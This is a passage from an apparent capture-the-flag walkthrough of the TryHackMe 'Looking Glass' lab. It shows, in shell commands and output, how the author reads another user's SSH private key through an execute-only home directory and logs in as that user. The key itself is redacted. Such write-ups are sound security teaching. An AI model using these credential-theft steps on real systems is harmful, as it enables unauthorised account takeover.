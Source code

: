 This starts with something we could have pursued earlier.  Let's at the `/home` directory.

```
humptydumpty@looking-glass:/home$ ls -al
ls -al
total 32
drwxr-xr-x  8 root         root         4096 Jul  3  2020 .
drwxr-xr-x 24 root         root         4096 Jul  2  2020 ..
drwx--x--x  6 alice        alice        4096 Jul  3  2020 alice
drwx------  3 humptydumpty humptydumpty 4096 Jan 20 17:57 humptydumpty
drwxrwxrwx  5 jabberwock   jabberwock   4096 Jan 20 17:31 jabberwock
drwx------  5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme
drwx------  3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee
drwx------  2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum
```

Notice that `alice` and `jabberwock`'s directories are executable.  What this means is that we can `cd` to these directories.  This means we can attempt to list the contents of each directory.  

While this doesn't help us find files that we don't know about, it DOES help us find files that we might be familiar with.

```
humptydumpty@looking-glass:/home$ ls /home/alice
ls /home/alice
ls: cannot open directory '/home/alice': Permission denied
humptydumpty@looking-glass:/home$ cd /home/alice
cd /home/alice
humptydumpty@looking-glass:/home/alice$ ls
ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice$ cd .ssh
cd .ssh
humptydumpty@looking-glass:/home/alice/.ssh$ ls
ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice/.ssh$ cat id_rsa
cat id_rsa
<redacted>
```

For some reason (probably owned by `humptydumpty`) it has let us `cat` out `alice`'s id_rsa, which we can use to SSH as `alice`.

Copy/Paste this into a file on our machine, change permissions, and `ssh` with the key file.

```
┌──(kali㉿kali)-[~/tryhackme/lookingglass]
└─$ vim alice_id_rsa             
                                                                                                                                                            
┌──(kali㉿kali)-[~/tryhackme/lookingglass]
└─$ chmod 400 alice_id_rsa                      
                                                                                                                                                            
┌──(kali㉿kali)-[~/tryhackme/lookingglass]
└─$ ssh alice@10.10.68.249 -i alice_id_rsa 
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$
```

---